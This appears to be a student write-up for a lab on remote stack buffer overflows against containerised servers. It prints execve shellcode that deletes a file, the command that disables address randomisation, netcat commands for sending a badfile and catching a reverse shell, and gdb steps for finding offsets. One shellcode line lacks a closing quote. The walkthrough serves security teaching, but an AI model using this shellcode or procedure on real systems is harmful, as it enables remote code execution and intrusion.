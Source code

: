 # Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3: Level-2 Attack

We know these facts:

- We can put the shellcode at the end of the overwritted data.

- Buffer as size between 100 and 300.

- The address of the buffer.

In order to change the execution flow of the stack program, we can overwrite all content in the positions inside Badfile between 100 and 300 with the possible shellcode address, while leave the NOP instruction in all the others positions. The new return address that points to the shellcode should be lower than the shellcode address, and bigger than the possible buffer size (maximum 300). In this way, even if the address is not exact, the NOP instructions slide the pointer until a code is found in a cell of memory, that is, our shellcode. Badfile construction is made by exploit-L2.py, the rest of the attack is conducted in the same way as in the previous task.

# Task 4: Level-3 Attack

Since the zeros posed at the end of every address stop the copy during the execution of strcpy function, everything after the return address will not be copy, so we have to change the position of the shellcode. Solution: put the shellcode just below the return address pointer and use as return address the one of the buffer. In this way, the shellcode will be for sure copied on the buffer and executed thanks to the return address and NOP slide instructions.

# Task 5: Level-4 Attack

Create a new Makefile for the server code in which we disable all the mitigations and enable the compilation with the debugging option -g (see Makefile inside server-code-debug folder), then run:

```console
$ make
```

After that, debug the stack-L2.out and stack-L1.out binary files with -q (option that allow to read from a binary file) and execute the following commands for each of the two executables:

```console
$ gdb -q stack-L?
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```

We can notice that the buffer addresses are differents among the two executables, while the ebp addresses are equal. However, even if these addresses are not the same as the real ones used by the programs running on the servers, they suggest to us that the same ebp is used always by the executables. So, just resuing the same ebp retrived in the previous task, and the buffer address returned by the target container, we can exploit another time the buffer overflow lunching a reverse shell.

Notice that the bof function inside the stack program use 3 local variables. If for example 180 bytes are used to store the buffer, 4 + 4 bytes are used for the other two local variables, so the base pointer ebp address is situated after 188 bytes from the buffer's address, specifically at distance equal to 192.


